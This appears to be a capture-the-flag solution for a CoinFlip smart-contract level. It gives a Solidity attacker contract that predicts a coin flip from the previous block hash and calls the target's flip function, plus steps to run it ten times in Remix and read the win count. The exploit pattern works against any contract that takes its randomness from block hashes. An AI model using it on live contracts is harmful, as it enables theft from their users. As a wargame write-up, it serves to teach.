 # Contract code
```
pragma solidity ^0.4.24;

contract CoinFlip {
    function flip(bool _guess) public returns (bool);
}

contract CoinFlipper {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function flipCoin(address coinContract) public {
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip contractToCall = CoinFlip(coinContract);
        contractToCall.flip(side);
    }
}
```

Deploy the above on remix and use flipCoin function 10 times on Remix with the level instance address as an argument.

Use `contract.address` to get the level instance's address.

# How to view wins
`var wins = await contract.consecutiveWins()`

`wins.toNumber()`